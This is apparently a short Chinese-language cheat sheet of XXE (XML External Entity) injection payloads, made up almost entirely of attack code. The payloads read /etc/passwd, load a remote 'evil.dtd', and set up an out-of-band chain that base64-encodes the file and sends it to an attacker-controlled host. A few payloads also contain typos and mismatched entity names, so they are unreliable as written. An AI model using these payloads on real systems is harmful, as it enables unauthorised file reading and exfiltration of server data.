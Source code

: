 # XML External Entity

DTD： 文档类型定义

基本操作：

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE a [
    <!ENTITY content SYSTEM "file:///etc/passwd">]>
<value>&content;</value> 
```

外部引入：

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE a [
    <!ENTITY % d SYSTEM "http://example.com/evil.dtd">
    %d;
]>
<value>&b;</value>
```

evil.dtd:

```xml-dtd
<!ENTITY d SYSTEM "file:///etc/passwd">
```

向外发送：

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM"http://1.3.3.7:8000/xxe.dtd">
%sp;
%param1;
]>

<r>&exfil;</r>
```

xxe.dtd

```xml-dtd
<!ENTITY % data SYSTEM"php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITYexfil SYSTEM 'http://x.x.x.x:8090/?%data;'>">
```

